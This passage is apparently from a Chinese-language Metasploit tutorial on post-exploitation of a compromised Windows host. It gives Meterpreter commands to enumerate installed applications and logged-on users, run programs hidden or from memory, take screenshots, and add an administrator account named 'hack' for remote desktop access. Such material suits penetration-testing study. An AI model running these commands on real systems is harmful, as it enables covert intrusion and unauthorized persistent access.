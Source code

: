 ### 获取用户密码

传送门：[MSF中获取用户密码](https://xie1997.blog.csdn.net/article/details/105815134)

### 运行程序

先查看目标主机安装了哪些应用

run post/windows/gather/enum_applications

![](https://p4.ssl.qhimg.com/t01beb52fe5fa6a261c.png)

我们还可以使用 execute 命令在目标系统中执行应用程序。这个命令的使用方法如下：

```lua
execute  参数  -f 可执行文件  
```

![点击并拖拽以移动](https://p4.ssl.qhimg.com/t012eb09f21483b324d.gif)

运行后它将执行所指定的命令。可选参数如下：

> > -f：指定可执行文件
> > 
> > -H：创建一个隐藏进程
> > 
> > -a：传递给命令的参数
> > 
> > -i： 跟进程进行交互
> > 
> > -m：从内存中执行
> > 
> > -t： 使用当前伪造的线程令牌运行进程
> > 
> > -s： 在给定会话中执行进程

![](https://p1.ssl.qhimg.com/t01ee6d622313a79056.png)

### 屏幕截图

输入：screenshot ，截图目标主机屏幕，可以看到，图片被保存到了　/root 目录下

![](https://p5.ssl.qhimg.com/t01f6d73e5c9998532b.png)

### 创建一个新账号

先查看目标主机有哪些用户

run post/windows/gather/enum_logged_on_users

![](https://p3.ssl.qhimg.com/t01f9aa5605f9049d77.png)

接下来，我们可以在目标系统中创建一个新的用户账号：run getgui -u hack -p 123，这个命令会创建用户，并把他添加到 Administrators 组中，这样该用户就拥有远程桌面的权限了。
